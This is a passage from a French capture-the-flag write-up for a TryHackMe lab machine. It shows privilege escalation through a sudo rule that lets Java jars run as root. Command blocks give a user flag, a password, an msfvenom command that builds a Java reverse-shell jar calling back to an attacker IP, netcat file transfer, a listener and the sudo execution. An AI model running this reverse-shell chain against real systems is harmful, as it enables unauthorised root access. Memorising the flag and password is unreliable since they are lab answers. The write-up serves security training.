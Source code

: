 Avec les identifiants on se connecte avec l'utilisateur jdk-admin.  
Dans le répertoire de l'utilisateur on lit le fichier user.txt et on trouve le flag.  
Le flag est : THM{1ae87fa6ec2cd9f840c68cbad78e9351}

**What is the root flag? (root.txt)**  

```bash
jdk-admin@vulnnet-dotjar:~$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 794613852                            

Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
```

On voit que sudo est configuré  pour exécuter java avec les droits root.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom --platform java -f jar -p java/shell_reverse_tcp LHOST=10.9.228.66 LPORT=3333 -o shell.jar
Payload size: 7508 bytes
Final size of jar file: 7508 bytes
Saved as: shell.jar
```

On crée un reverse shell en java.   

```bash
jdk-admin@vulnnet-dotjar:/tmp$ nc -lp 4444 > shell.jar
nc -lp 4444 > shell.jar
tim@kali:~/Bureau/tryhackme/write-up$ nc dotjar.thm 4444 < shell.jar
```

On transfert notre reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 3333
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::3333
Ncat: Listening on 0.0.0.0:3333
```

On écoute le port 3333 pour avoir le shell.  

```bash
jdk-admin@vulnnet-dotjar:/tmp$ sudo /usr/bin/java -jar shell.jar
sudo /usr/bin/java -jar shell.jar
Password: 794613852
```
